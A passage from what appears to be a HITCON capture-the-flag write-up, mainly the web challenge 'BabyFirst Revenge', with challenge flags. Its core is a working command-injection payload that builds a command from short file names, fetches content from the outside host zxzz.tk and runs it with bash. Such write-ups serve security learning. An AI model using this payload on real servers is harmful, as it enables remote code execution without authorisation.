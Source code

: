 `hitcon{code_in_BuildID!}`

## web

### BabyFirst Revenge

Own `zxzz.tk`

```
>echo
>w\\
*>>.a
rm w*
>ge\\
*>>.a
rm g*
>t
>zx\\
*>>.a
rm t*
rm z*
>z\\
*>>.a
rm z*
>z.\\
*>>.a
rm z*
>tk
*>>.a
rm t*
>bash
b* .a
```

`hitcon{idea_from_phith0n,thank_you:)}`
